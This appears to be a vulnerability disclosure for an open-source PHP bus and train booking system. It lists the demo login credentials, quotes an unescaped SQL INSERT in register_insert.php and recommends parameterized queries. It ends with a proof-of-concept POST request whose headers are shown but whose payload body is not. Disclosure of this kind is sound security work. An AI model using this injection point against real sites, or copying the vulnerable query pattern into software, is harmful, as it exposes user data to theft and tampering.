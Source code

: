 ![image](https://github.com/gtqbhksl/weekdays_something/assets/113713406/7ff20f87-72ed-43c7-ab55-823e3dfd27a0)search system on github,find an online-bus-and-train-booking-system

![image](https://github.com/gtqbhksl/weekdays_something/assets/113713406/fe68d1e0-ab02-4bde-92d7-e114f8b8323c)

https://github.com/Abhaysharma0519/Online-Bus-and-Train-booking-system
# install

use phpstudy create a website

![image](https://github.com/gtqbhksl/weekdays_something/assets/113713406/8fe16865-72ff-4cb9-af09-c241866337a9)



create database train , load and run train.sql

![image](https://github.com/gtqbhksl/weekdays_something/assets/113713406/45e3068f-c2a3-45a9-8fbd-237cb0dd94dd)



change connect.php

![image](https://github.com/gtqbhksl/weekdays_something/assets/113713406/eb7150dc-ef2f-4fd6-8c72-26108f8ade08)


open the website 

![image](https://github.com/gtqbhksl/weekdays_something/assets/113713406/f28c9fce-8a58-45cc-a442-532cbd522971)

account

```
admin:prajwal@gmail.com/1234
user:PRAJWAL@GMAIL.COM/123
```

# 1.register_insert.php sql injection

in register_insert.php ，	have CWE-564: SQL Injection: Hibernate

![image](https://github.com/gtqbhksl/weekdays_something/assets/113713406/948ee3bc-8d76-48f8-a7e3-6b7d4851dc5c)

```
$sql_userdatabase="Insert into userdatabase(Name ,Email , Gender, password , dob , Phone) values ('$name' , '$email' , '$Gender', '$password', '$dob', '$Phone')";
```
Parameterized queries or precompiled statements should be used to ensure that user input is processed and escaped correctly. This can prevent attackers from tampering with query logic by injecting malicious code.


POC:
```
POST /register_insert.php HTTP/1.1
Host: onlinebus
Content-Length: 110
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://onlinebus
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://onlinebus/register.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=jmetab2u149tgvq0m6nh6mbeh9
```